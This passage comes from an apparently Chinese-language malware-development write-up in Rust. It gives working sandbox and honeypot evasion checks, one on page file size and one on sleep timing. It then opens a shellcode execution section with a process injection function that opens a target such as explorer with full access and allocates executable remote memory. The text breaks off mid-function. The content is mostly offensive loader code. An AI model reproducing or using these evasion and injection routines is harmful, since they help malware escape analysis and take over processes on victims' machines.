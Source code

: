 1.   检测 系统分页文件总页数 ， 一般小于4_000_000 可能为蜜罐
```rust
pub fn get_num_pages() -> i32 {
    let mut statex: MEMORYSTATUSEX = unsafe { std::mem::zeroed() };
    statex.dwLength = std::mem::size_of::<MEMORYSTATUSEX>() as u32;
    if unsafe { GlobalMemoryStatusEx(&mut statex) } == 0 {
        // eprintln!("Failed to get system memory status.");
        return 1;
    }
    let mut system_info: SYSTEM_INFO = unsafe { std::mem::zeroed() };
    unsafe { GetSystemInfo(&mut system_info) };
    return (statex.ullTotalPageFile / system_info.dwPageSize as u64) as i32;
}
```
## 判断是否存在进程
Todo
## 当前文件名是否更改
Todo
## 时间流速
```rust
pub fn flow_time() -> bool {
    let start_time = Instant::now();

    sleep(Duration::from_millis(100));

    let elapsed_time = start_time.elapsed();

    if elapsed_time.as_millis() < 100 {
        return true;
    }
    false
}
```
# 0x05 shellcode 执行
### 进程注入
```rust
/* 注入到进程 ， pid 为进程名
    // 根据程序名获取进程pid
    let s = System::new_all();
    let process_id: u32 = s
                                .processes_by_name("explorer")
                                .next()
                                .unwrap()
                                .pid()
                                .as_u32();
*/
pub unsafe fn inject_code(pid: u32, code: &[u8]) -> Result<(), Error> {
    let process: HANDLE = OpenProcess(PROCESS_ALL_ACCESS, 0, pid);
    if process.is_null() {
        return Err(Error::last_os_error());
    }

    let remote_memory = VirtualAllocEx(
        process,
        null_mut(),
        code.len(),
        MEM_COMMIT,
        PAGE_EXECUTE_READWRITE,
    );
```